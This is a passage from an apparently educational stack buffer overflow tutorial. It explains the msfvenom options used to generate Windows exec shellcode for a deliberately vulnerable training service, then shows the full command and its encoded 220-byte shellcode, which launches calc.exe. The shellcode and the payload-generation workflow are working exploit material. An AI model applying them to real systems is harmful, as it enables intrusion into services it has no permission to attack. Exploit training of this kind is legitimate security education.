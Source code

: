 The options we will provide to `msfvenom` are:

* `-p windows/exec` (we want Windows shellcode that will `exec`ute a command)
* `-b '\x00\x0A` (the list of bad characters we determined earlier, so that `msfvenom` can avoid having them in the generated shellcode)
* `-f python` (output shellcode in a Python-friendly format)
* `--var-name shellcode_calc` (tell `msfvenom` to output Python code that sets a variable called `shellcode_calc`)
* `CMD=calc.exe EXITFUNC=thread` (options for the `windows/exec` payload)

`CMD` gets set to `calc.exe` for poppage of calc. `EXITFUNC` specifies how the
shellcode should clean up after itself. If msfvenom wasn't to add some sort of
`FUNC`tion to `EXIT` with, execution would "fall off" the end of the shellcode
on the stack and random stack data would be executed as code, crashing the
process and ruining our day as attackers. By choosing an `EXITFUNC` of
`thread`, `msfvenom` will append some code that cleanly shuts down the thread
it is running in. Since `dostackbufferoverflowgood.exe` handles client
connections in separate threads, this will mean that the service as a whole
will continue to run after our shellcode executes. If we left `EXITFUNC` at the
default value of `process`, the shellcode would cause the whole service to shut
down after the shellcode had finished executing.

\newpage

Running `msfvenom` we get our shellcode:

```
% ~/opt/metasploit-framework/msfvenom -p windows/exec -b '\x00\x0A' \
    -f python --var-name shellcode_calc CMD=calc.exe EXITFUNC=thread

No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
Found 10 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 220 (iteration=0)
x86/shikata_ga_nai chosen with final size 220
Payload size: 220 bytes
shellcode_calc =  ""
shellcode_calc += "\xb8\x3e\x08\xbf\x9c\xdb\xdc\xd9\x74\x24"
shellcode_calc += "\xf4\x5f\x29\xc9\xb1\x31\x31\x47\x13\x03"
shellcode_calc += "\x47\x13\x83\xc7\x3a\xea\x4a\x60\xaa\x68"
shellcode_calc += "\xb4\x99\x2a\x0d\x3c\x7c\x1b\x0d\x5a\xf4"
shellcode_calc += "\x0b\xbd\x28\x58\xa7\x36\x7c\x49\x3c\x3a"
shellcode_calc += "\xa9\x7e\xf5\xf1\x8f\xb1\x06\xa9\xec\xd0"
shellcode_calc += "\x84\xb0\x20\x33\xb5\x7a\x35\x32\xf2\x67"
shellcode_calc += "\xb4\x66\xab\xec\x6b\x97\xd8\xb9\xb7\x1c"
shellcode_calc += "\x92\x2c\xb0\xc1\x62\x4e\x91\x57\xf9\x09"
shellcode_calc += "\x31\x59\x2e\x22\x78\x41\x33\x0f\x32\xfa"
shellcode_calc += "\x87\xfb\xc5\x2a\xd6\x04\x69\x13\xd7\xf6"
shellcode_calc += "\x73\x53\xdf\xe8\x01\xad\x1c\x94\x11\x6a"
shellcode_calc += "\x5f\x42\x97\x69\xc7\x01\x0f\x56\xf6\xc6"
shellcode_calc += "\xd6\x1d\xf4\xa3\x9d\x7a\x18\x35\x71\xf1"
shellcode_calc += "\x24\xbe\x74\xd6\xad\x84\x52\xf2\xf6\x5f"
shellcode_calc += "\xfa\xa3\x52\x31\x03\xb3\x3d\xee\xa1\xbf"
shellcode_calc += "\xd3\xfb\xdb\x9d\xb9\xfa\x6e\x98\x8f\xfd"
shellcode_calc += "\x70\xa3\xbf\x95\x41\x28\x50\xe1\x5d\xfb"
shellcode_calc += "\x15\x0d\xbc\x2e\x63\xa6\x19\xbb\xce\xab"
shellcode_calc += "\x99\x11\x0c\xd2\x19\x90\xec\x21\x01\xd1"
shellcode_calc += "\xe9\x6e\x85\x09\x83\xff\x60\x2e\x30\xff"
shellcode_calc += "\xa0\x4d\xd7\x93\x29\xbc\x72\x14\xcb\xc0"
```

---